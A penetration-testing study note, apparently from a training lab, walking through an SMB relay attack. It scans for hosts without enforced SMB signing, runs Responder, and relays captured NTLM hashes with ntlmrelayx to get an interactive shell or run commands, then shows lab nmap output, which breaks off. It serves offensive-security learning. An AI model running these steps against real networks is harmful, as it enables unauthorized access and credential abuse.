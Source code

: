 #SMBRelay #Responder #ntlmrelayx #SMB #NTLM 
# SMB Relay Attacks
Instead of cracking hashes gathered with Responder, we can relay those hashes to machines and gain access
* Requirements
	* SMB signing must be disabled or not enforced on the target
	* Relayed user credentials must be admin on machine for any real value

Step 1: Identify Hosts Without SMB Signing
	`nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24`
* may need `-Pn` to get it to work
Step 2: Run Responder
	`sudo mousepad /etc/responder/Responder.conf`
* Turn off SMB and HTTP
Step 3: Run Responder
	`sudo responder -I eth0 -dwv`
Step 4: Set up your relay
	`sudo ntlmrelayx.py -tf targets.txt -smb2support`
* responder forwards hash to ntlmrelay and then ntlmrelay forwards hash to target
Step 5: An Event Occurs...
* cause an event by pointing to a fileshare on user account
Step 6: Win
* Other Wins
	* `sudo ntlmrelayx.py -tf targets.txt -smb2support -i`
		* gives an interactive shell!
			* `nc 127.0.0.1 11000`
	* `sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"`
		* can run commands!


Both domain users have SMB signing unenforced so we can relay to them.
```
┌─(~/Documents/PEH)─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────(kali@kali:pts/3)─┐
└─(13:39:53)──> nmap --script=smb2-security-mode.nse -p445 192.168.95.133 -Pn                                                               ──(Wed,Jun26)─┘
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-26 13:39 PDT
Nmap scan report for 192.168.95.133
Host is up (0.00047s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
┌─(~/Documents/PEH)─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────(kali@kali:pts/3)─┐
└─(13:39:58)──> nmap --script=smb2-security-mode.nse -p445 192.168.95.134 -Pn                                                               ──(Wed,Jun26)─┘
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-26 13:40 PDT
Nmap scan report for 192.168.95.134
Host is up (0.00033s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
```